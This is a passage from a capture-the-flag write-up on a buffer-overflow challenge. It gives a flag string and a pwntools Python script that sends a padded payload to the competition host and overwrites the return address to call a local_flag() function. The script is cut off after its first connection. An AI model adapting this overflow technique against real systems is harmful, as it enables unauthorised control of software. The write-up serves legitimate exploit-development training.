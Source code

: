 ### Controlling the crash and executing local_flag()

**Flag2** : **CTF{controlled_crash_causes_conditional_correspondence}**

Done? not yet, Automation FTW!

Let’s build a python script to automate getting the flags for us

```python
from pwn import *

import re

# Connection Information

HOST = "buffer-overflow.ctfcompetition.com"

PORT = 1337

# Initial Payload

payload = "A" * 264

# This function get the first flag by crashing the system

def get_flag1(conn, payload):

conn.sendline("run\n")

payload += 4 * "A"

conn.sendline(payload)

flag = conn.recvuntil("}")

flag = re.findall("CTF{.*}", flag)[0]

conn.close()

return flag

# This function get the second flag

# by controlling the execution and execution local_flag() function

def get_flag2(conn, payload):

conn.sendline("run\n")

payload += p32(0x00400850) # address of local_flag() function

conn.sendline(payload)

flag = conn.recvuntil("}")

flag = re.findall("CTF{.*}", flag)[0]

conn.close()

return flag

# Connect first time

conn = remote(HOST, PORT)

```